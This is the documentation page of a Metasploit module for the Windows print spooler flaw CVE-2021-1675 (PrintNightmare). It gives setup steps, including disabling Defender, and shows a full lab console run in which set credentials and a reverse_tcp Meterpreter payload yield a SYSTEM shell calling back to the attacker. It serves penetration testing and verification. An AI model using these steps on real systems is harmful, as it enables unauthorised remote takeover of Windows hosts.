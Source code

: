 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Disable Windows security options on the target
    1. Disable Windows Defender Real-time protection (Windows Security > Virus & threat protection > Virus & threat protection settings)
    1. Disable Windows Defender SmartScreen (Windows Security > Virus & threat protection > App & browser control)

1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use exploit/windows/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `PAYLOAD` and related values
    1. Run the module

## Options

### ReconnectTimeout
*This is an advanced option.*

The timeout in seconds for reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

```
msf6 > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUser aliddle
SMBUser => aliddle
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPass Password1
SMBPass => Password1
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] 192.168.159.96:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Retrieving the path of the printer driver directory...
[+] 192.168.159.96:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
[*] 192.168.159.96:445 - Server is running. Listening on 192.168.250.134:445
[*] 192.168.159.96:445 - Server started.
[*] 192.168.159.96:445 - The named pipe connection was broken, reconnecting...
[*] 192.168.159.96:445 - Successfully reconnected to the named pipe.
[*] Sending stage (200774 bytes) to 192.168.250.237
[*] 192.168.159.96:445 - The named pipe connection was broken, reconnecting...
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:61984) at 2022-05-16 17:42:19 -0400
[*] 192.168.159.96:445 - Server stopped.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > 
```

